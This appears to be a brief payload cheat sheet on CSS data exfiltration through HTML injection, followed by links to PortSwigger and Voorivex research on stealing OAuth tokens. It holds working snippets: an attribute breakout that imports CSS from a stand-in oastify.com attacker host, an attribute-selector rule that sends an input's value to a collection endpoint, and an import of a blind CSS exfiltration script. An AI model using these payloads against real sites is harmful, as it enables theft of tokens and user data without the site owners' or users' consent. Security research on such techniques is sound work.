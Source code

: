 
```bash
  "><style>@import'//YOUR-PAYLOAD.oastify.com'</style>
```

```bash
<input value=1337>
<style>
input[value="1337"] {
   --value: url(/collectData?value=1337);
}
input {
   background:var(--value,none);
}
</style>
```


```bash
<style>
@import 'https://portswigger-labs.net/blind-css-exfiltration/start';
</style>
```
- https://blog.voorivex.team/css-data-exfiltration-to-steal-oauth-token
- https://portswigger.net/research/blind-css-exfiltration
- https://github.com/hackvertor/blind-css-exfiltration/tree/main
- https://github.com/VoorivexTeam/CSS-Exfiltration/tree/main
- https://portswigger-labs.net/blind-css-exfiltration/start
- https://d0nut.medium.com/better-exfiltration-via-html-injection-31c72a2dae8b
- https://github.com/VoorivexTeam/CSS-Exfiltration/blob/main/exploit.js
